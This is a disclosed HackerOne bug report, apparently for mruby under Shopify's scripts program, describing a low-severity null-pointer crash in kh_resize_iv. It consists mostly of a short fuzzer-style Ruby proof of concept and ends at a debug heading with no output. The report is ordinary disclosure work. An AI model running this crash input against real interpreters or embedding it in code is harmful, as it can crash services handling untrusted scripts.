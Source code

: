# SIGSEGV - kh_resize_iv - Null Deref

## Report Details
- **Report ID**: 193724
- **URL**: https://hackerone.com/reports/193724
- **State**: Closed
- **Severity**: low
- **Submitted**: 2016-12-24T00:36:15.510Z
- **Disclosed**: 2017-03-09T01:26:43.647Z

## Reporter
- **Username**: ston3
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: shopify-scripts

## Vulnerability Information
PoC
---------------------

The following code triggers the bug (attached as kh_resize_iv.rb):

		

	l()

	t('','')do()end

	s('','')do([].())end



	[]*()
	d

	t('')do([].())end

	a=Array.new

	a.[]=(102,0)
	€
	s

	a.to_s
	a




	a.to_s
	a.i

Debug - mirb
---------------------
